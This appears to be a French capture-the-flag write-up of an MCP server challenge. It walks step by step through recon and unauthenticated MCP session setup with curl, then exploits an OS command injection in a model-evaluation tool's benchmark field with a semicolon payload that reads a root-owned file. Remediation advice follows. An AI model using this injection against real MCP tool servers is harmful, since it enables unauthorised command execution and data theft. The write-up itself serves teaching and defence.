

**Cible :** `176.16.180.188`  
**Niveau :** Intermediate - Sécurité MCP  
**Date :** 24 novembre 2026  
**Vecteur :** Injection de commande OS via le paramètre `benchmark` de l'outil MCP `run_model_evaluation`  
**Flag :** `flag_549cb837_86c4_4254_b7cb_89b36a3748cd`

> **Périmètre :** challenge de sécurité MCP, autorisation déclarée par le participant. La charge finale n'a lu aucun fichier en écriture et n'a apporté aucune modification à la cible.

---

## Résumé exécutif

Le serveur MCP de NovaMind était directement accessible sur le port `9090` **sans authentification**. L'outil `run_model_evaluation` validait le champ `model_name` par liste blanche, mais le champ `benchmark` n'était pas neutralisé avant son emploi dans une commande shell. Une valeur contenant un point-virgule a permis d'exécuter `cat` sur le système hôte.

| Résultat | Détail |
|---|---|
| `/root/proof.txt` | Lu avec succès - **flag récupéré** |
| **Flag** | `flag_549cb837_86c4_4254_b7cb_89b36a3748cd` |

---

## 1. Reconnaissance des services

```bash
nmap -A 176.16.180.188
```

**Sortie observée (éléments pertinents) :**

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
443/tcp  open  ssl/http nginx 1.29.6
|_http-title: NovaMind AI — Internal Assistant
| ssl-cert: Subject: commonName=ai.novamind.internal/organizationName=NovaMind Inc.
9090/tcp open  http     Uvicorn
|_http-title: (text/plain; charset=utf-8)
```

| Port | Service | Rôle |
|---|---|---|
| 22 | SSH / OpenSSH 8.9p1 | Non utilisé dans cette résolution |
| 443 | HTTPS / nginx 1.29.6 | Interface web NovaMind |
| 9090 | HTTP / Uvicorn | **Serveur MCP - cible de l'exploitation** |

---

## 2. Inspection de l'interface web

```bash
curl -sk -i https://176.16.180.188/ | head -c 5000
```

**Sortie observée (extrait) :**

```
HTTP/1.1 200 OK
Server: nginx/1.29.6
Content-Type: text/html
<title>NovaMind AI — Internal Assistant</title>
```

**Recherche des appels API dans le JS :**

```bash
curl -sk https://176.16.180.188/ | grep -nE 'fetch\(|XMLHttpRequest|/api|mcp|chat|tools|endpoint'
```

**Extrait JavaScript récupéré :**

```javascript
const resp = await fetch('/api/chat', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    model: 'smollm2:135m',
    prompt: text,
    system: 'You are NovaMind AI, an internal company assistant for NovaMind Inc. Be helpful and concise.',
    stream: false
  })
});
```

> Une tentative de demander au chat la liste des outils a renvoyé `504 Gateway Time-out`. L'analyse a continué directement sur le serveur MCP.

---

## 3. Vérification des routes courantes de l'API

```bash
curl -sS -i http://176.16.180.188:9090/
curl -sS -i http://176.16.180.188:9090/openapi.json
curl -sS -i http://176.16.180.188:9090/docs
```

**Réponse pour ces trois routes :**

```
HTTP/1.1 404 Not Found
content-type: text/plain; charset=utf-8

Not Found
```

> Le `404` sur `openapi.json` et `docs` ne signifie pas que le service est absent : son endpoint MCP se trouve sur `/mcp`.

---

## 4. Identification du transport MCP et initialisation

Un `GET /mcp` sans l'en-tête `Accept` attendu a renvoyé :

```json
{"jsonrpc":"2.0","id":"server-error","error":{"code":-32600,"message":"Not Acceptable: Client must accept text/event-stream"}}
```

Cela indique un transport **MCP Streamable HTTP** requérant `Accept: application/json, text/event-stream`.

**Requête d'initialisation :**

```bash
curl -sS --max-time 8 -i 'http://176.16.180.188:9090/mcp' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json, text/event-stream' \
  -H 'MCP-Protocol-Version: 2024-11-05' \
  -d '{"jsonrpc":"2.0","id":1,"method":"initialize",
       "params":{"protocolVersion":"2024-11-05",
                 "capabilities":{},
                 "clientInfo":{"name":"assessment-probe","version":"1.0"}}}'
```

**Réponse :**

```
HTTP/1.1 200 OK
mcp-session-id: a927720165904fe6b3519e3be5f12f92

{"jsonrpc":"2.0","id":1,"result":{
  "protocolVersion":"2024-11-05",
  "serverInfo":{"name":"NovaMind AI Platform","version":"1.26.0"},
  "instructions":"Internal MCP server for NovaMind AI agent tools. Provides access to knowledge base search, document processing, model evaluation, and infrastructure monitoring."
}}
```

> Le serveur a accepté l'initialisation **sans demander d'identifiants d'authentification**.

---

## 5. Énumération des outils et ressources MCP

```bash
BASE='http://176.16.180.188:9090/mcp'
SID='a927720165904fe6b3519e3be5f12f92'
H=(-H 'Content-Type: application/json' \
   -H 'Accept: application/json, text/event-stream' \
   -H 'MCP-Protocol-Version: 2024-11-05' \
   -H "Mcp-Session-Id: $SID")

curl -sS "$BASE" "${H[@]}" \
  -d '{"jsonrpc":"2.0","id":2,"method":"tools/list","params":{}}'

curl -sS "$BASE" "${H[@]}" \
  -d '{"jsonrpc":"2.0","id":3,"method":"resources/list","params":{}}'

curl -sS "$BASE" "${H[@]}" \
  -d '{"jsonrpc":"2.0","id":4,"method":"prompts/list","params":{}}'
```

**Outils exposés :**

| Outil | Description |
|---|---|
| `search_knowledge_base` | Recherche dans la base de connaissances |
| `fetch_knowledge_source` | Récupération d'une source |
| **`run_model_evaluation`** | **Exécute un benchmark - paramètres : `model_name`, `benchmark`, `subset`, `num_samples`** |
| `query_llm_metrics` | Consultation de métriques LLM |
| `check_model_registry` | Vérification du registre de modèles |

**Ressources et prompts :** `[]` - listes vides.

> `run_model_evaluation` accepte des paramètres destinés à piloter un outil système d'évaluation → **candidat prioritaire pour l'injection**.

---

## 6. Recherche préalable d'indices dans la base de connaissances

Deux appels en lecture seule à `search_knowledge_base` ont été exécutés sur les collections `security` et `engineering`.

**Résultats (non exploitables) :**

```
security    → Incident Response Playbook, Network Segmentation Policy, Penetration Testing Guidelines
engineering → MCP Server Deployment Guide, AI Model Serving Best Practices, Internal API Authentication
```

> Aucun de ces résultats ne contenait le flag ni un chemin direct. La voie documentaire a été abandonnée.

---

## 7. Test de validation sur `model_name` (échec contrôlé)

```bash
curl -sS --max-time 20 'http://176.16.180.188:9090/mcp' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json, text/event-stream' \
  -H 'MCP-Protocol-Version: 2024-11-05' \
  -H 'Mcp-Session-Id: a927720165904fe6b3519e3be5f12f92' \
  -d '{"jsonrpc":"2.0","id":7,"method":"tools/call",
       "params":{"name":"run_model_evaluation",
                 "arguments":{"model_name":"smollm2; cat /home/local.txt /root/proof.txt 2>&1; #",
                              "benchmark":"mmlu","subset":"all","num_samples":1}}}'
```

**Réponse :**

```json
{"error": "Unknown model: smollm2; cat /home/local.txt /root/proof.txt 2>&1; #.
 Available: ['smollm2', 'phi-3', 'llama-3', 'mistral', 'qwen2']"}
```

> `model_name` est comparé à une **liste blanche**. La chaîne injectée a été rejetée. Ce test révèle aussi les noms de modèles acceptés → injection à déplacer vers `benchmark`.

---

## 8. Exploitation - injection dans `benchmark`

```bash
curl -sS --max-time 20 'http://176.16.180.188:9090/mcp' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json, text/event-stream' \
  -H 'MCP-Protocol-Version: 2024-11-05' \
  -H 'Mcp-Session-Id: a927720165904fe6b3519e3be5f12f92' \
  -d '{"jsonrpc":"2.0","id":8,"method":"tools/call",
       "params":{"name":"run_model_evaluation",
                 "arguments":{"model_name":"smollm2",
                              "benchmark":"mmlu; cat /home/local.txt /root/proof.txt 2>&1; #",
                              "subset":"all","num_samples":1}}}'
```

**Réponse :**
<p align="center"><a href="/assets/images/pap.png"></a></p>
```json
{"jsonrpc":"2.0","id":8,"result":{
  "content":[{"type":"text","text":
    "Evaluating model=smollm2 benchmark=mmlu\n
     cat: /home/local.txt: No such file or directory\n
     flag_549cb837_86c4_4254_b7cb_89b36a3748cd"}],
  "isError":false}}
```

**Décomposition de la charge injectée :**

| Élément | Rôle |
|---|---|
| `mmlu` | Valeur benchmark légitime — début de la commande shell |
| `;` | Séparateur shell - termine la commande d'évaluation |
| `cat /home/local.txt /root/proof.txt 2>&1` | Lecture des deux fichiers, erreurs redirigées vers stdout |
| `; #` | Termine la commande injectée et met en commentaire le reste de la ligne construite |

### 🏁 Flag final

```
flag_549cb837_86c4_4254_b7cb_89b36a3748cd
```
---

## 9. Constat de sécurité

### Vulnérabilité principale

**OS Command Injection via le paramètre `benchmark` de `run_model_evaluation`.**

| Champ | Valeur |
|---|---|
| **CWE** | CWE-78 - Improper Neutralization of Special Elements used in an OS Command |
| **OWASP** | A05:2025 - Injection |
| **Impact** | Exécution arbitraire de commandes avec les droits du processus MCP |

### Impact démontré

- Exécution de commande distante via un outil MCP non authentifié
- Lecture du fichier `/root/proof.txt`
- `model_name` protégé par liste blanche ≠ `benchmark` non filtré → **validation incohérente**

### Limites de l'analyse

- Aucune écriture ou suppression de fichier n'a été tentée
- Aucune exploitation SSH n'a été tentée
- le flag provenait de `/root/proof.txt`

---

## 10. Synthèse de la chaîne d'exploitation

```
[Recon]
  nmap -A 176.16.180.188
  → port 9090 Uvicorn (MCP)
         │
         ▼
[Initialisation MCP]
  POST /mcp initialize → mcp-session-id (sans auth)
         │
         ▼
[Énumération]
  tools/list → run_model_evaluation découvert
  (model_name, benchmark, subset, num_samples)
         │
         ▼
[Test model_name]
  injection rejetée → liste blanche confirmée
  → modèles valides révélés : smollm2, phi-3, ...
         │
         ▼
[Injection benchmark]
  model_name=smollm2 (valide)
  benchmark="mmlu; cat /root/proof.txt 2>&1; #"
  → commande shell exécutée côté serveur
         │
         ▼
[Flag]
  flag_549cb837_86c4_4254_b7cb_89b36a3748cd
```

---

## 11. Recommandations de correction

| # | Mesure | Détail |
|---|---|---|
| 1 | **Supprimer l'appel shell** | Ne pas construire de commande shell depuis des valeurs client. Utiliser `subprocess.run([...], shell=False)` |
| 2 | **Liste blanche sur `benchmark`** | Valider `{"mmlu", "hellaswag", "arc", "truthfulqa", "winogrande"}` avant toute exécution. Rejeter toute autre valeur |
| 3 | **Valider tous les paramètres** | `subset`, `num_samples` - ne pas compter sur la seule validation de `model_name` |
| 4 | **Principe du moindre privilège** | Le processus MCP ne doit pas pouvoir lire `/root/proof.txt` ni les secrets système |
| 5 | **Authentifier l'endpoint MCP** | Protéger `/mcp` par Bearer token ou réseau privé - pas d'accès direct depuis Internet |
| 6 | **Isoler les outils à risque** | L'exécution de benchmarks doit être isolée et assortie de permissions dédiées |
| 7 | **Tests de sécurité** | Tester `;`, `&&`, `\|`, `$(...)`, backticks, retours à la ligne - le résultat attendu est un rejet avant toute exécution |

**Exemple de conception plus sûre :**

```python
ALLOWED_BENCHMARKS = {"mmlu", "hellaswag", "arc", "truthfulqa", "winogrande"}
ALLOWED_MODELS = {"smollm2", "phi-3", "llama-3", "mistral", "qwen2"}

if model_name not in ALLOWED_MODELS:
    raise ValueError("Unknown model")
if benchmark not in ALLOWED_BENCHMARKS:
    raise ValueError("Unknown benchmark")

subprocess.run(
    ["python", "evaluate.py",
     "--model", model_name,
     "--benchmark", benchmark,
     "--subset", subset,
     "--num-samples", str(num_samples)],
    shell=False,
    check=True,
    timeout=MAX_EVALUATION_SECONDS,
)
```

> Même avec `shell=False`, la validation métier et la restriction des permissions système restent nécessaires.

---

## 12. Classification et références

### Classification

| Référentiel | Identifiant | Libellé |
|---|---|---|
| CWE | **CWE-78** | Improper Neutralization of Special Elements used in an OS Command |
| OWASP Top 10:2025 | **A05:2025** | Injection |

### Références

| # | Source | Lien |
|---|---|---|
| 1 | CWE-78 | https://cwe.mitre.org/data/definitions/78.html |
| 2 | OWASP Top 10:2025 - A05 Injection | https://top10.owasp.org/2025/A05_2025-Injection/ |
| 3 | OWASP MCP Security Cheat Sheet | https://cheatsheetseries.owasp.org/cheatsheets/MCP_Security_Cheat_Sheet.html |
| 4 | OWASP OS Command Injection Defense | https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html |
